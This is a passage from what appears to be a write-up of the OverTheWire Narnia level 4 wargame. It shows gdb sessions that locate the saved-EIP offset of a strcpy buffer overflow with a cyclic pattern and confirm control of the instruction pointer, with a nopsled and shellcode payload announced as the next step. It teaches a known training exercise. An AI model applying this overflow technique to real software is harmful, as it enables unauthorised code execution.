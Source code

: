 	if(argc>1)
		strcpy(buffer,argv[1]);

	return 0;
}
{{< / highlight >}}

MOAR OVERFLOWS. This time you'll notice something at line 6. What this does
is [store the user environment](http://man7.org/linux/man-pages/man7/environ.7.html).
This then get zerod out inside `main` to prevent us from storing any shellcode
in environment variables. However we might still be able to write `EIP`, so using the
trusty pattern generator from before

{{< highlight console >}}
local $] ./pattern.py 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7
Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5
Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3
Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
{{< / highlight >}}

{{< highlight console >}}
narnia4@melinda:/narnia$ gdb -q ./narnia4 
Reading symbols from ./narnia4...(no debugging symbols found)...done.
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5
Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4
Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3
Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
Starting program: /games/narnia/narnia4 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5
Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4
Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3
Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

Program received signal SIGSEGV, Segmentation fault.
0x316a4130 in ?? ()
{{< / highlight >}}

{{< highlight console >}}
local $] ./pattern.py 0x316a4130
Pattern 0x316a4130 first occurrence at position 272 in pattern.
{{< / highlight >}}

This tells us we have 272 bytes to play with. Plenty of space to construct
a nopsled and shellcode payload. Let's find out what we need to write into
`EIP`.

{{< highlight console >}}
(gdb) r $(python -c "print 'a'*272 + 'bbbb'")
Starting program: /games/narnia/narnia4 $(python -c "print 'a'*272 + 'bbbb'")

Program received signal SIGSEGV, Segmentation fault.
0x62626262 in ?? ()
(gdb) x/200x $esp
0xffffd5c0:	0x00000000	0xffffd654	0xffffd660	0xf7feacea
0xffffd5d0:	0x00000002	0xffffd654	0xffffd5f4	0x080497cc
0xffffd5e0:	0x0804825c	0xf7fca000	0x00000000	0x00000000
0xffffd5f0:	0x00000000	0x7cc8a421	0x44f76031	0x00000000
0xffffd600:	0x00000000	0x00000000	0x00000002	0x080483b0
0xffffd610:	0x00000000	0xf7ff0500	0xf7e3c979	0xf7ffd000
0xffffd620:	0x00000002	0x080483b0	0x00000000	0x080483d1
0xffffd630:	0x080484ad	0x00000002	0xffffd654	0x08048550
0xffffd640:	0x080485c0	0xf7feb180	0xffffd64c	0x0000001c
0xffffd650:	0x00000002	0xffffd78f	0xffffd7a5	0x00000000
0xffffd660:	0xffffd8ba	0xffffd8ce	0xffffd8de	0xffffd8f1
0xffffd670:	0xffffd914	0xffffd927	0xffffd930	0xffffd93d
0xffffd680:	0xffffde5e	0xffffde69	0xffffde75	0xffffded3
0xffffd690:	0xffffdeea	0xffffdef9	0xffffdf05	0xffffdf16
0xffffd6a0:	0xffffdf1f	0xffffdf32	0xffffdf3a	0xffffdf4a